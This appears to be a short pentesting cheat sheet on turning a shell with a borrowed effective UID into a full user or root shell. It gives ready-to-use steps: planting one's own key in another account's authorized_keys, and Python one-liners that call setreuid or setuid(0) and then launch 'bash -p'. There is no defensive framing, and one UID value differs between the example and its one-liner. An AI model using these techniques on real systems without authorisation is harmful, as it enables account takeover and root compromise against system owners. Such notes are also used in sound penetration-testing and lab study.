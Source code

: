 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid
## ===============
1) using public key authentication technique to escape
-check the .ssh if we have write permission on authorized_keys
-write our own public key into the authorized_keys file
-ssh into the user with our own private key
//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape
/*
current setup
-------------
euid user: 1000(Eve)
uid user: 33 (www-data)
*/

rough idea how it works executing step by step:

$python

\>import os

\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid
## =============
1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python

\>import os

\>os.setuid(0)

\>os.system("/bin/bash -p")

one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

